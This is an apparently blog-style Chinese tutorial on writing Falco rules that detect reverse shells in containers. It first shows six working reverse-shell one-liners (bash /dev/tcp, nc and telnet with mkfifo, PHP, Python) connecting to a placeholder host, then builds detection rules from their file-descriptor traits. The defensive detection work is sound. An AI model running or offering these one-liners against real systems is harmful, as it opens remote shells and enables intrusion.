# Falco 监控反弹Shell

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BDocker%2BPHP-Falco%20%E7%9B%91%E6%8E%A7%E5%8F%8D%E5%BC%B9Shell.md)

网络对抗愈加激烈，各种攻击手法层出不穷，在安全左移的同时，如何做到快速的应急响应，也是攻防中的一大重点。本文将以Falco为例，来达到反弹Shell的监控。

要监控反弹Shell的行为，就要分析对应的行为特征，先看看进程有啥特性或者共性：

```
bash -i >& /dev/tcp/203.0.113.1/10000 0>&1
```



```
bash -c 'exec bash -i &>/dev/tcp/yourip/yourport <&1'
```



```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 203.0.113.1 10000 >/tmp/f
```



```
php -r '$sock=fsockopen("yourip",yourport);exec("/bin/sh -i <&3 >&3 2>&3");'
```



```
python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("yourip",yourport));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```



```
TF=$(mktemp -u); mkfifo $TF && telnet 203.0.113.1 1337 0<$TF | /bin/sh 1>$TF
```



根据上面的反弹Shell行为，发现有几个特性，或者说共性：

1. fd有对外的socket连接，且fd.num不超过3
2. fd有pipe管道，且fd.num不超过4
3. fd.255是/dev/tty

根据综上所述，可以编写对应的规则。

## 编写监控规则

Falco的规则有三块内容：

- Rules
- Macros
- Lists

Rules主要是告警名称、告警介绍、告警条件、告警输出、风险等级和告警标签；Macros是自定义好的规则，可以在规则中被引用的“函数”；Lists是变量列表。规则长下面这样：


Falco默认也自带了一些规则，比如我们docker exec进入容器的时候，会有告警提示：


根据上述反弹Shell分析，如果bash、zsh这些进程的fd出现socket连接，肯定有问题，而且常见的bash反弹都是用的重定向，那我们就可以编写对应的规则：

```
- list: shell_binaries
 items: [ash, bash, csh, ksh, sh, tcsh, zsh, dash]

- rule: Shell Binary Reverse shell
 desc: Bash、Zsh etc. have network connection,May be Reverse Shell
 condition: evt.type=dup and proc.name in (shell_binaries) and container and fd.num in (0, 1, 2, 3) and fd.type in ("ipv4", "ipv6")
 output: >
 Reverse shell connection (user=%user.name %container.info process=%proc.name proc.pid=%proc.pid parent=%proc.pname cmdline=%proc.cmdline terminal=%proc.tty container_id=%container.id image=%container.image.repository fd.name=%fd.name fd.num=%fd.num fd.type=%fd.type fd.sip=%fd.sip fd.rip=%fd.rip)
 priority: emergency
 tags: [container, reverse_shell, mitre_execution]
 append: false
```

上述规则代表如果存在重定向、进程是bash、zsh这些、在容器内、fd的num是0、1、2、3中的一个、fd类型是ipv4或者ipv6，可以看到成功的监控到反弹Shell行为：



但是这样很容易被绕过，主要执行的进程不是shell_binaries里的就行，就比如上面的telnet、python反弹Shell的方式。因此我们可以删掉上面提到的shell_binaries，不管是不是bash这些，只要fd 0 1 2 3有socket连接就行：

```
- rule: Any Binary fd 0-3 Have Network Connection
 desc: Any Binary fd 0-3 have network connection
 condition: evt.type=connect and container and fd.num in (0, 1, 2, 3) and fd.type in ("ipv4", "ipv6")
 output: >
 Any Binary fd 0-3 Have Network Connection (user=%user.name %container.info process=%proc.name proc.pid=%proc.pid parent=%proc.pname cmdline=%proc.cmdline terminal=%proc.tty container_id=%container.id image=%container.image.repository fd.name=%fd.name fd.num=%fd.num fd.type=%fd.type fd.sip=%fd.sip fd.rip=%fd.rip)
 priority: warning
 tags: [container, fd03_network]
 append: false
```



继续根据上面的反弹Shell分析，发现telnet这样的反弹Shell，会有管道pipe的产生，因此我们继续完善我们的告警，添加Pipe：

```
- rule: Shell Binary Pipe
 desc: Bash、Zsh etc. have Pipe,May be Reverse Shell
 condition: evt.type=dup and proc.name in (shell_binaries) and container and fd.num in (0, 1, 2, 3) and fd.type="pipe"
 output: >
 Reverse shell connection(PIPE) (user=%user.name %container.info process=%proc.name parent=%proc.pname proc.pid=%proc.pid cmdline=%proc.cmdline terminal=%proc.tty container_id=%container.id image=%container.image.repository fd.name=%fd.name fd.num=%fd.num fd.type=%fd.type fd.sip=%fd.sip fd.rip=%fd.rip)
 priority: emergency
 tags: [container, reverse_shell, pipe, mitre_execution]
 append: false
```



fd.255是/dev/tty也可以加个：

```
- rule: fd.255 = tty
 desc: fd.255 = tty
 condition: evt.type=connect and container and fd.num=255 and fd.name='/dev/tty'
 output: >
 fd.255 = tty (user=%user.name %container.info process=%proc.name parent=%proc.pname proc.pid=%proc.pid cmdline=%proc.cmdline terminal=%proc.tty container_id=%container.id image=%container.image.repository fd.name=%fd.name fd.num=%fd.num fd.type=%fd.type fd.sip=%fd.sip fd.rip=%fd.rip)
 priority: warning
 tags: [container, fd255_tty]
 append: false
```

## **总结**

本文利用Falco进行了反弹Shell的监控，虽然大多数的反弹行为都可以被监控到，但是可能存在各种各样的误报、漏报，安全任重道远。
